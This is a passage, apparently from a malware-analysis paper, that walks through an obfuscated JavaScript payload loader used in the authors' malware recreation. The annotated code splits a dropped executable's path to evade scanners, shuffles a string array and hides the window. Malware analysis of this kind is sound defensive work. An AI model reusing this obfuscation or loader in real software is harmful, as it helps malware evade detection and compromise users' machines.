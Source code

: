 \begin{lstlisting}[language=JavaScript, caption={Bracket notation object property access with obfuscated argument.}][H]
// content += String.fromCharCode(data[i])
content += String[_0x556975(0x1dc)](data[i]); 
\end{lstlisting}

Overall, these obfuscations slightly impede analysis without slowing the execution of the loader in any significant way.
For completeness' sake we use the obfuscated loader in the malware recreation, though we have tested the unobfuscated
loader as well to verify correctness. The listing below shows the whole obfuscated payload with explanatory comments
alongside each obfuscated part.

\begin{lstlisting}[language=JavaScript, caption={Obfuscated payload loader.}][H]
// Data array used to execute commands
var _0x4fba = [
  'OpenTextFile', 'CreateTextFile', '245822eefsqR', '598829yCFgdo',
  'close', '302606ILGEZd', '124169YwNuaX', 'resizeTo', 'Close', 'Write',
  '718973kiZVEV', 'fromCharCode', 'C:/U' + 'sers/Publi' + 'c/Librarie' +'s/App' + 'Store.e' + 'xe',
  '108898gckcJk', '1hfvbvr', '1oCpDrk', '1TeNYee', '392776SHsKeZ'
] // split the path string to make automated scanning more difficult

// Pointless second argument for obfuscation
var _0x187d = function(_0x1d5195, _0x59a857) {
  _0x1d5195 = _0x1d5195 - 0x1dc;
  var _0x4fbae6 = _0x4fba[_0x1d5195];
  return _0x4fbae6;
}

var _0x556975 = _0x187d // Function alias

// self invoking function
// arg1: the command array _0x4fba
// arg2: the value 0x6d993 == 448915
// 
// Reorders the array elements until they are in the following order:
// [
//  fromCharCode, C:/Users/Public/Libraries/AppStore.exe,
//  108898gckcJk, 1hfvbvr, 1oCpDrk, 1TeNYee, 392776SHsKeZ,
//  OpenTextFile, CreateTextFile, 245822eefsqR, 598829yCFgdo,
//  close, 302606ILGEZd, 124169YwNuaX, resizeTo, Close, Write, 
//  718973kiZVEV
// ]
(function(_0x284e13, _0x5d8387) {
  var _0x113863 = _0x187d; // Function alias
  while (!![]) {
    try {
      var _0x589f0d = parseInt(_0x113863(0x1e2)) + -parseInt(_0x113863(0x1df)) 
        * parseInt(_0x113863(0x1e8)) + parseInt(_0x113863(0x1de))
        + parseInt(_0x113863(0x1e6)) + -parseInt(_0x113863(0x1ed))
        + -parseInt(_0x113863(0x1e1)) * -parseInt(_0x113863(0x1e5))
        + parseInt(_0x113863(0x1e9)) * parseInt(_0x113863(0x1e0));
      if (_0x589f0d === _0x5d8387) break;
      // places first element at the back of arr
      else _0x284e13['push'](_0x284e13['shift']()); 
    } catch (_0xecf87d) {
      // the error path ultimately does the same as the 
      // normal path if _0x589f0d != _0x5d8387 (second arg)
      // places first element at the back of arr
      _0x284e13['push'](_0x284e13['shift']()); 
    }
  }
  // Calls window.resizeTo(0, 0)
}(_0x4fba, 0x6d993), window[_0x556975(0x1ea)](0x0, 0x0)); 


\end{lstlisting}
